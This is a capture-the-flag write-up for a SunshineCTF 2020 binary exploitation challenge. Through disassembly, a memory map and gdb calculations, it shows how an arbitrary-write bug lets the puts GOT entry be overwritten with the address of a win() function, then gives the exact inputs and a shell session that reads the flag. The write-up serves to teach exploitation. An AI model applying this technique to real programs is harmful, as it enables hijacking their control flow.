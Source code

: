 # speedrun-08

## Task

nc chal.2020.sunshinectf.org 30008

File: chall_08

Tags: binary exploitation

## Solution

It's a lot harder this time.

```nasm
[0x00400480]> afl
0x00400480    1 42           entry0
0x004004c0    4 42   -> 37   sym.deregister_tm_clones
0x004004f0    4 58   -> 55   sym.register_tm_clones
0x00400530    3 34   -> 29   sym.__do_global_dtors_aux
0x00400560    1 7            entry.init0
0x00400650    1 2            sym.__libc_csu_fini
0x00400654    1 9            sym._fini
0x004005e0    4 101          sym.__libc_csu_init
0x00400567    1 19           sym.win
0x00400460    1 6            sym.imp.system
0x004004b0    1 2            sym._dl_relocate_static_pie
0x0040057a    1 99           main
0x00400470    1 6            sym.imp.__isoc99_scanf
0x00400450    1 6            sym.imp.puts
0x00400428    3 23           sym._init
[0x00400480]> pdf@main
            ; DATA XREF from entry0 @ 0x40049d
┌ 99: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_10h @ rbp-0x10
│           ; var int64_t var_4h @ rbp-0x4
│           0x0040057a      55             push rbp
│           0x0040057b      4889e5         mov rbp, rsp
│           0x0040057e      4883ec10       sub rsp, 0x10
│           0x00400582      488d45fc       lea rax, [var_4h]
│           0x00400586      4889c6         mov rsi, rax
│           0x00400589      488d3ddc0000.  lea rdi, [0x0040066c]       ; "%d" ; const char *format
│           0x00400590      b800000000     mov eax, 0
│           0x00400595      e8d6feffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x0040059a      488d45f0       lea rax, [var_10h]
│           0x0040059e      4889c6         mov rsi, rax
│           0x004005a1      488d3dc70000.  lea rdi, [0x0040066f]       ; "%ld" ; const char *format
│           0x004005a8      b800000000     mov eax, 0
│           0x004005ad      e8befeffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x004005b2      8b45fc         mov eax, dword [var_4h]
│           0x004005b5      488b55f0       mov rdx, qword [var_10h]
│           0x004005b9      4898           cdqe
│           0x004005bb      488d0cc50000.  lea rcx, [rax*8]
│           0x004005c3      488d05760420.  lea rax, obj.target         ; 0x600a40
│           0x004005ca      48891401       mov qword [rcx + rax], rdx
│           0x004005ce      488d3d9e0000.  lea rdi, [0x00400673]       ; "hi" ; const char *s
│           0x004005d5      e876feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004005da      90             nop
│           0x004005db      c9             leave
└           0x004005dc      c3             ret
```

We have only NX enabled but controlling the flow is not that easy this time. We only read in 2 numbers. The first one is added to the address of `obj.target` and the second one is written into the resulting address `mov qword [rcx + rax], rdx`.

I struggled for a while until I found the solution. I didn't understand what `obj.target` was for, since it was empty. Was the goal to print it out? No.

We need to find a memory region where we can write to.

```bash
$ pmap -x $(pgrep chall_08)
PID:   chall_08
Address           Kbytes     RSS   Dirty Mode  Mapping
0000000000400000       4       4       4 r-x-- chall_08
0000000000600000       4       4       4 rw--- chall_08
0000000000601000     132       4       4 rw---   [ anon ]
```

We can write to the region where `obj.target` is located. Now we need to find something that's used in there that we can overwrite.

`puts@plt` is called right after our write. Where is that going? We are not diassembling a function here, note the `pd`:

```nasm
[0x00400480]> pd@sym.imp.puts
      ╎╎╎   ; CALL XREF from main @ 0x4005d5
┌ 6: int sym.imp.puts (const char *s);
└     ╎╎╎   0x00400450      ff2592052000   jmp qword [reloc.puts]      ; [0x6009e8:8]=0x400456 ; "V\x04@"
      ╎╎╎   0x00400456      6800000000     push 0
      └───< 0x0040045b      e9e0ffffff     jmp sym..plt
```

It jumps to the address of `reloc.puts`. Since RELRO is not enabled, we can write there. Let's write the address of the `sym.win`.

Our second parameter is therefore:

```python
>>> 0x400567
4195687
```

What about our first parameter? I used gdb for that, set a breakpoint at the MOV instruction and calculated it there.

```nasm
gdb-peda$ p 0x6009e8 - $rax
$1 = 0xffffffffffffffa8
gdb-peda$ p $rax + $1
$2 = 0x6009e8
gdb-peda$ p/d $1/8
$3 = 2305843009213693941
```

If we enter those two now the address of `sym.win` is written to the relocation address of puts, in the call to `puts@plt` we now jump to the `win` function.

```bash
$ nc chal.2020.sunshinectf.org 30008
2305843009213693941
4195687
ls
chall_08
flag.txt
cat flag.txt
sun{fiction-fa1a28a3ce2fdd96}
```
